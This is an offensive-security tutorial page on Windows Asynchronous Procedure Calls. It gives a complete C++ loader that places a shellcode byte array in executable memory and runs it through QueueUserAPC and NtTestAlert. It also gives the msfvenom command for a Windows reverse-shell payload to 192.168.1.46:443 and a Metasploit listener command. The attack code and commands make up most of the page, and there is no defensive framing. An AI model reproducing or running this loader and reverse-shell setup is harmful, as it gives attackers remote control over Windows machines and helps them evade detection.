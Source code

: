 # Asynchronous Procedure Calls - APC

 is a function that executes asynchronously in the context of a particular thread. When an APC is queued to a thread, the system issues a software interrupt. The next time the thread is scheduled, it will run the APC function

* Threads execute code within processes

* Threads can execute code asynchronously by leveraging APC queues

* Each thread has a queue that stores all the APCs

* Application can queue an APC to a given thread (subject to privileges)

* When a thread is scheduled, queued APCs get executed
  
  ###### Apc-local.cpp
  
  ```cpp
  #include <Windows.h>
  
  #pragma comment(lib, "ntdll")
  using myNtTestAlert = NTSTATUS(NTAPI*)();
  
  int main()
  {
  unsigned char buf[] = "\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x31\xff\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
  //NtTestAlert is a system call that’s related to the alerts mechanism of Windows. 
  //This system call can cause execution of any pending APCs the thread has
  myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
  SIZE_T shellSize = sizeof(buf);
  // we allocate memory in the local process for our payload:
  LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  // Then write our payload to newly allocated memory:
  WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
  //Then queue an APC to the current thread:
  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
  QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
  //
  testAlert();
  
  return 0;
  }
  ```
  
  #### Payload
  
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.46 LPORT=443  -f c 
  ```
  
  #### Listener
  
  ```bash
  msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
  ```

Tips : run on x86 
